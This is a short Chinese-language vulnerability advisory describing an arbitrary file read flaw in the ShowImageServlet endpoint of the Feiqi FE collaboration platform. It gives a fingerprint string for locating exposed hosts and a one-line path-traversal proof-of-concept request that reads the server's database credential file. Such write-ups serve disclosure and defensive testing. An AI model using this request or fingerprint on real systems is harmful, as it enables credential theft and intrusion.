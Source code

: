 # 飞企互联 FE业务协作平台 ShowImageServlet 任意文件读取漏洞

## 漏洞描述

飞企互联 FE业务协作平台 ShowImageServlet 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

<a-checkbox checked>飞企互联 FE业务协作平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"flyrise.stopBackspace.js"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691841203744-76e35241-156f-4393-b103-5a317c039d3e.png)

验证POC

```php
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691841249185-93bab434-e137-495c-9ec8-48cb4de35486.png)